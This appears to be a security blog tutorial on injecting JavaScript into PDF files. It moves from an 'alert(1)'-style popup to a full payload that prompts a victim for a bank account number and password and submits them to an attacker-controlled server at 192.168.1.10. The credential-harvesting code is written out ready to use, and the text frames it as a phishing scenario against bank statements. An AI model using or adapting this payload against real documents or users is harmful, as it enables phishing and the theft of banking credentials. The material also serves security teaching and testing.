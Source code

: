 Will demonstrate how to create the "alert(1)" of PDF injection and how to improve it to inject JavaScript that can steal credentials and open a malicious link.

We can inject code in PDF like XSS injection inside the javascript function call. In normal XSS you need to make sure the syntax is correct and valied, the same principle is applied to PDF except the injection is inside an object, such as javascript, text stream or annotation URI.

### XSS

To perform an XSS we inject our payload in javascript object and make sure the parenthesis are closed correctly.
you can note that the injection was successful if the PDF render correctly without any error. Breaking the PDF is nice, but we need to ensure we could execute JavaScript of course.
I started XSS with a popup alert by injecting a javascript code to the PDF file as following.

##### Alert Box

The app.alert() function is used to display a popup box to the victim.
```
<<
/Type /Action
/S /JavaScript
/JS (app.alert('XSS');)
>>
```
This will pop up alert box when PDF file open.

![XSS](../assets/img/hacking-with-pdf/xss1.png)

If you find it difficult to inject the script manually you can use [JS2PDFInjector](https://github.com/cornerpirate/JS2PDFInjector){:target="_blank" rel="noopener"} tool.

##### Stealing Credentials

Most banks send monthly statements protected with the client's account and password, The client can be phished and stolen his credentials if he is a victim of a phishing attack.

The following scenario demonstrate how an attacker can steal credentials and send them to his server using submit form method.

The first argument to app.response() is the text displayed in the body of the Response Box. This is the standard input, but the Response Box can be called with no arguments at all since it always displays a text input box. The text entered in this box will be returned to the account variable if the user presses the OK button to exit the dialog. If they press Cancel , account will be null, same thing in the second argument.

In cURL variable, the attacker server is added along with the account and password collected from the victim, this submitted to the attacker using submitForm() function.

```
<<
/Type /Action
/S /JavaScript
/JS
(
var account = app.response ({ cQuestion:"Enter your Bank Account Number", cTitle:"Bank Account Details", bPassword:false, cDefault: global.cLastPswd, cLabel:"A/C"}); 
var password = app.response ({ cQuestion:"Enter your Bank Account Passowrd", cTitle:"Bank Account Details", bPassword:true, cDefault: global.cLastPswd, cLabel:"Password"});
var cURL = "http://192.168.1.10:443" + "?" + "account=" + account + "&password=" + password;
this.submitForm({cURL: encodeURI(cURL), cSubmitAs: 'HTML'});
)
>>
```
![bank1](../assets/img/hacking-with-pdf/bank1.png)
